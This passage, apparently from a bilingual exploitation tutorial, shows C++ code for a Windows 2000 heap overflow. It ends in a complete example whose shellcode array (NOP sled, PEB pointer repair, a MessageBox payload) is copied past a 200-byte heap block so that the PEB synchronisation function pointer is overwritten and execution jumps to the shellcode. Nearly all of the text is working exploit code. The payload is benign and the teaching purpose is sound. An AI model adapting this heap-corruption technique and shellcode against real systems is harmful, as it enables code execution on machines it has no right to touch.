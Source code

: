 ```CPP
"\x88\x06\x36\x00" // ShellCode起始地址
"\x20\xF0\xFD\x7F"; // PEB同步函数指针位置

int main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0,0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    // __asm int 3 //used to break process
    memcpy(h1, shellcode, 0x200); //overflow,0x200=512
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    return 0;
}
```

#### Summary

- This is the complete ShellCode, which can successfully use the heap overflow of Win2000
- But the problem is that the MessageBox cannot be popped up successfully.
- The reason is that the PEB pointer is spoofed together with the ShellCode, so you need to fix the PEB pointer.

#### Code example 4 (complete)

```CPP
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//repaire the pointer which shooted by heap over run
"\xB8\x20\xF0\xFD\x7F" //MOV EAX,7FFDF020
"\xBB\x4C\xAA\xF8\x77" //MOV EBX,77F8AA4C the address may releated to
//your OS
"\x89\x18"//MOV DWORD PTR DS:[EAX],EBX
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
// 200 字节堆区结束，以下是溢出数据
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 下一个堆块的块首，保留
"\x88\x06\x36\x00" // ShellCode起始地址
"\x20\xF0\xFD\x7F"; // PEB同步函数指针位置

int main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0,0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    // __asm int 3 //used to break process
    memcpy(h1, shellcode, 0x200); //overflow,0x200=512
    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    return 0;
}
```
